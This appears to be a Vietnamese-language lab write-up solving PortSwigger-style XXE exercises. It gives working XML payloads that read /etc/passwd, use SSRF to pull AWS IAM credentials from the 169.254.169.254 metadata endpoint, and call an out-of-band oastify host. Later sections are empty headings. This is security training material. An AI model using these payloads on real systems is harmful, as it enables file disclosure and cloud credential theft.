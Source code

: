 # 1. Exploiting XXE using external entities to retrieve files
Ta thấy chức năng stock check có body là một đoạn mã XML. Như vậy ta có thẻ exploit bằng cách chèn đoạn code sau vào body:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả nội dung file /etc/passwd được in ra thành công
![image](https://user-images.githubusercontent.com/103978452/205596701-bb968712-24a2-4d79-94cd-6247202fb977.png)

# 2. Exploiting XXE to perform SSRF attacks
Cấu hình đoạn XML như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, ta thấy kết quả trả về `Invalid product ID: latest". Như vậy "latest" chính là response của "http://169.254.169.254". Truy cập "http://169.254.169.254/latest" thì ta lại được một chuỗi mới. Cứ như vậy, gửi URL đầy đủ là "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin", ta thu được SecretAccessKey.

![image](https://user-images.githubusercontent.com/103978452/206396710-4d353393-563d-45a0-ae34-68136b7c50db.png)

# 3. Blind XXE with out-of-band interaction
Cấu hình request như bài 2, nhưng thay đổi URL thành địa chỉ của Burp Collaborator. Sau khi submit, vào Burp Collaborator Client kiểm tra thì ta thấy có requests được gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/206397595-8e3a3423-55e8-4382-944a-cd02e89f8de4.png)

# 4. Blind XXE with out-of-band interaction via XML parameter entities
Cấu hình đoạn XML để gửi request đến Burp Collaborator sử dụng parameter entity:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exploit [<!ENTITY % xxe SYSTEM "http://pa3d5ksa3lk30zok1tbyh6llqcw2kr.oastify.com"> %xxe; ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, vào Burp Collaborator kiểm tra thì thấy có requests được gửi đến. Bài lab được giải thành công.
# 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD

# 6. Exploiting blind XXE to retrieve data via error messages

# 7. Exploiting XInclude to retrieve files

# 8. Exploiting XXE via image file upload

# 9. Exploiting XXE to retrieve data by repurposing a local DTD
